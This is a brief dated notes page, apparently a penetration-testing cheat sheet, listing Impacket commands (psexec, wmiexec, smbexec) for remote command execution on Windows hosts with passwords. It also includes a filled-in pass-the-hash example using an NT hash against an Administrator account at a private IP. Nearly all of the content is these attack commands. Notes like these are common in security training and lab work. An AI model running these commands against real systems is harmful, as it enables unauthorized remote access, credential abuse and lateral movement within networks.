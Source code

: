 ### 21-Oct-23 Sat

```
impacket-psexec domain/username:'password'@IP
```

```
impacket-psexec username@ip -hashes LM:NT
```

```
impacket-wmiexec domain/username:'password'@IP
```

```
impacket-wmiexec -hashes
00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b
Administrator@192.168.50.212
```

```
impacket-smbexec domain/username:'password'@IP
```



